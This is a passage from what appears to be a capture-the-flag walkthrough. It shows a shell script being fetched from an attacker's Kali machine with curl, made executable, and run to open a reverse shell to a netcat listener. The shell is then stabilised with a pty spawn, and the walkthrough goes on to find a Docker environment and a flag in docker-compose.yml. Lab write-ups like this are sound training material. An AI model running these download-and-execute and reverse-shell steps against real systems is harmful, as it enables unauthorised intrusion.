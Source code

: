 ```curl http://<Kali Machine IP>:2602/shell.sh -o /tmp/shell.sh ```
![Desktop View](/assets/nyfl/file.png){: width="900" height="500" }

once we saved the file, lets give the executable permision to the file ``` chmod +x /tmp/shell.sh ```. 

# Getting the Remote Shell

start the netcat from the kali machine   ```nc -nvlnp 1001``` and browse the transferred file from the website ``` bash /tmp/shell.sh ```.

![Desktop View](/assets/nyfl/rshell.png){: width="900" height="500" }

The first thing we do after getting the shell is spawn a TTY to makesure our shell is more stable. We got our shell directly as root; something not good!

```shell
    Python3 -c "Import pty:pty.spawn('/bin/bash')"
    export TERM=xterm
    Ctrl+Z - Background
    Stty raw  -echo; fg
```

Now we got the stable shell, lets do ``` ls -a ``` and we can see a file name call ".dockerenv". So we discovered that we are in a Docker Environment.
![Desktop View](/assets/nyfl/stable.png){: width="900" height="500" }

As we navigated into the app directory within our Docker environment, we found our answer to the third question and obtained our second flag in the docker-compose.yml file.
![Desktop View](/assets/nyfl/yml.png){: width="900" height="500" }
